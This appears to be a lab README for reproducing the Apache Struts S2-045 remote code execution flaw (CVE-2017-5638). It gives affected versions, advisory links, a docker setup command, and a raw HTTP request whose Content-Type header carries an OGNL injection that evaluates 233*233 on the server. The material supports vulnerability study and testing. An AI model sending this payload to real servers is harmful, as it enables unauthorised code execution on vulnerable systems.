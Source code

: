 # S2-045 远程代码执行漏洞（CVE-2017-5638）

影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

漏洞详情:

 - http://struts.apache.org/docs/s2-045.html
 - https://blog.csdn.net/u011721501/article/details/60768657
 - https://paper.seebug.org/247/

## 漏洞环境

执行如下命令启动struts2 2.3.30：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到上传页面。

## 漏洞复现

直接发送如下数据包，可见`233*233`已成功执行：

```
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data


```

![](1.png)
